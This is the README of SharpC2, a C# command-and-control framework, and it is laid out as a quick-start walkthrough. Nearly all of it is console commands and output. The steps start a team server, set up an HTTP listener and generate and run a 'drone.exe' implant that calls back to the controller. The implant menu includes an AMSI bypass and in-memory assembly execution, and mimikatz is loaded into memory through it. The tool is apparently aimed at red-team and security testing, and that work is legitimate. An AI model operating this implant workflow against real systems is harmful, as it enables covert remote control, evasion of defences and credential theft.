 # SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Standard Implant, and a .NET Client.



## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.



### Start the Team Server

```
C:\SharpC2\TeamServer> dotnet build
TeamServer -> C:\SharpC2\TeamServer\bin\Debug\net5.0\TeamServer.dll

C:\SharpC2\TeamServer\bin\Debug\net5.0> dotnet TeamServer.dll Passw0rd!
info: Microsoft.Hosting.Lifetime[0]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\Users\Daniel\source\repos\SharpC2_dev\TeamServer\bin\Debug\net5.0
```



**Note**:  By default, it will start in `Production` mode and listen for connections on all interfaces.  To restrict to the localhost only, set the hosting environment to `Development` mode:  `set ASPNETCORE_ENVIRONMENT=Development`.



### Start the Client

```
C:\SharpC2\Client> dotnet build
Client -> C:\SharpC2\Client\bin\Debug\net5.0\SharpC2.dll

C:\Users\Daniel\source\repos\SharpC2_dev\Client\bin\Debug\net5.0>dotnet SharpC2.dll
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```



### Connect to the Team Server

```
(server)> localhost
(port)> 8443
(nick)> rasta
(pass)>

Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

(accept? [y/N])> y
[drones] #
```



### Configure and Start the Default HTTP Handler

```
[drones] # handlers

[handlers] # list

Name          Running
----          -------
default-http  False

[handlers] # config default-http

[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        80         False
ConnectAddress  localhost  False
ConnectPort     80         False

[default-http] # set BindPort 8080
[default-http] # set ConnectPort 8080
[default-http] # show

Name            Value      Optional
----            -----      --------
BindPort        8080       False
ConnectAddress  localhost  False
ConnectPort     8080       False

[default-http] # start
[+] Handler "default-http" started.

[default-http] # back

[handlers] # list

Name          Running
----          -------
default-http  True
```



### Generate a Payload for the Handler

```
[handlers] # help payload
Generate a payload for the given Handler
Usage: payload <handler> <format> <path>

[handlers] # payload default-http exe C:\Temp\drone.exe
[+] Saved 74240 bytes.
```



Execute the payload.

```
C:\Temp> drone.exe
```



### Interacting with a Drone

```
[handlers] # back

[drones] # list

Guid        Address      Hostname      Username  Process  PID    Arch  LastSeen
----        -------      --------      --------  -------  ---    ----  --------
655a3dea9d  172.20.64.1  Ghost-Canyon  Daniel    drone    32748  x64   0.29s

[drones] # interact 655a3dea9d

[655a3dea9d] # help

Name              Description
----              -----------
back              Back to previous screen
bypass-amsi       Bypass AMSI for post-ex tasks
cd                Change working directory
execute-assembly  Execute a .NET assembly in memory
exit              Exit this Drone
help              Get help
ls                List files and directories
overload          Map a native DLL into memory
pwd               Print current working directory
run               Run a command
shell             Run a command via cmd.exe
sleep             Set sleep interval and jitter

[655a3dea9d] # help overload
Map a native DLL into memory
Usage: overload [/path/to/dll] [export] <args>

[655a3dea9d] # overload C:\Tools\mimikatz\x64\powerkatz.dll powershell_reflective_mimikatz coffee
[+] Drone tasked: 668a2b4acb
[+] Drone checked in. Sent 1878149 bytes.
[+] Output received:

  .#####.   mimikatz 2.2.0 (x64) #19041 Mar  3 2021 14:35:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

[+] Task complete.
```



## Publishing

The best way to publish Release versions is with the `dotnet` command line utility.

```
C:\SharpC2> dotnet publish -c Release
Microsoft (R) Build Engine version 16.10.0-preview-21126-01+6819f7ab0 for .NET
Copyright (C) Microsoft Corporation. All rights reserved.

  Determining projects to restore...
  All projects are up-to-date for restore.
  Drone -> C:\SharpC2\Drone\bin\Release\netstandard2.0\Drone.dll
  SharpC2.API -> C:\SharpC2\SharpC2.API\bin\Release\netstandard2.0\SharpC2.API.dll
  TeamServer -> C:\SharpC2\TeamServer\bin\Release\net5.0\TeamServer.dll
  Client -> C:\SharpC2\Client\bin\Release\net5.0\SharpC2.dll
```



You may build projects (such as the Client) to run on any compatible platform using `-r <runtime>`, including Windows, Linux and macOS.

```
C:\SharpC2\Client> dotnet publish -c Release -r win-x64
Microsoft (R) Build Engine version 16.10.0-preview-21126-01+6819f7ab0 for .NET
Copyright (C) Microsoft Corporation. All rights reserved.

  Determining projects to restore...
  All projects are up-to-date for restore.
  Client -> C:\SharpC2\Client\bin\Release\net5.0\win-x64\SharpC2.dll
  
C:\SharpC2\Client\bin\Release\net5.0\win-x64\publish> SharpC2.exe
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

```
C:\SharpC2\Client>dotnet publish -c Release -r linux-x64

rasta@Ghost-Canyon:/mnt/c/SharpC2/Client/bin/Release/net5.0/linux-x64/publish$ ./SharpC2
  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_

(server)>
```

